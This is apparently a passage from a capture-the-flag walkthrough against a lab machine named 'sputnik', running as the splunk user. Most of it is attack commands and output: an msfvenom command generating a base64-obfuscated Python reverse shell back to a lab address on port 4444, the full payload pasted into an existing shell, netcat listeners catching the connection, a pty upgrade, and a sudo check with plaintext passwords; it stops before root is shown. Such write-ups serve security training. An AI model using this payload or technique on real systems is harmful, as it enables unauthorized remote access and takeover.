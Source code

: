 
Creating a payload in python because we are unable to execute commands:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# msfvenom -p cmd/unix/reverse_python lhost=192.168.56.102 lport=4444 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 497 bytes
python -c "exec('aW1wb3J0IHNvY2tldCwgICAgICAgc3VicHJvY2VzcywgICAgICAgb3MgICAgOyAgICBob3N0PSIxOTIuMTY4LjU2LjEwMiIgICAgOyAgICBwb3J0PTQ0NDQgICAgOyAgICBzPXNvY2tldC5zb2NrZXQoc29ja2V0LkFGX0lORVQsICAgICAgIHNvY2tldC5TT0NLX1NUUkVBTSkgICAgOyAgICBzLmNvbm5lY3QoKGhvc3QsICAgICAgIHBvcnQpKSAgICA7ICAgIG9zLmR1cDIocy5maWxlbm8oKSwgICAgICAgMCkgICAgOyAgICBvcy5kdXAyKHMuZmlsZW5vKCksICAgICAgIDEpICAgIDsgICAgb3MuZHVwMihzLmZpbGVubygpLCAgICAgICAyKSAgICA7ICAgIHA9c3VicHJvY2Vzcy5jYWxsKCIvYmluL2Jhc2giKQ=='.decode('base64'))"

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


After getting the reverse shell ( stardard reverse shell) we are pasting the payload into the terminal, and this will give us another shell on port 4444.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.108] 54196
python -c "exec('aW1wb3J0IHNvY2tldCwgICAgICAgc3VicHJvY2VzcywgICAgICAgb3MgICAgOyAgICBob3N0PSIxOTIuMTY4LjU2LjEwMiIgICAgOyAgICBwb3J0PTQ0NDQgICAgOyAgICBzPXNvY2tldC5zb2NrZXQoc29ja2V0LkFGX0lORVQsICAgICAgIHNvY2tldC5TT0NLX1NUUkVBTSkgICAgOyAgICBzLmNvbm5lY3QoKGhvc3QsICAgICAgIHBvcnQpKSAgICA7ICAgIG9zLmR1cDIocy5maWxlbm8oKSwgICAgICAgMCkgICAgOyAgICBvcy5kdXAyKHMuZmlsZW5vKCksICAgICAgIDEpICAgIDsgICAgb3MuZHVwMihzLmZpbGVubygpLCAgICAgICAyKSAgICA7ICAgIHA9c3VicHJvY2Vzcy5jYWxsKCIvYmluL2Jhc2giKQ=='.decode('base64'))"


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Reverse shell on port 4444

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.108] 57500
id
uid=1001(splunk) gid=1001(splunk) groups=1001(splunk)
whoami
splunk

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Getting Root

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.108] 57500
id
uid=1001(splunk) gid=1001(splunk) groups=1001(splunk)
whoami
splunk
python -c 'import pty;pty.spawn("/bin/bash");'
splunk@sputnik:/$ 
splunk@sputnik:/$ sudo -l
sudo -l
[sudo] password for splunk: plunk
[sudo] password for splunk: ameer_says_thank_you_and_good_job

Matching Defaults entries for splunk on sputnik:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~